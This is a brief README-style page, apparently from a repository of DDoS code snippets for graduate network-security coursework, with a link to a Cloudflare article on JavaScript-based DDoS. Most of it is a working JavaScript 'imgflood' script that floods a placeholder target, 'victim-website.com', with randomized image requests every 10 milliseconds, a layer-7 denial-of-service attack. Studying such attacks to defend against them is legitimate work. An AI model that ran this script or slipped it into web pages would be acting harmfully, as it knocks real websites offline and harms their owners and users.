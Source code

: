 # DDoS
Snippets of code and resources related to DDoS attacks for graduate coursework on network security

## imgflood Layer 7 Attack
```
function imgflood() {
  var TARGET = 'victim-website.com'
  var URI = '/index.php?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```
Resources: [An introduction to JavaScript-based DDoS](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/)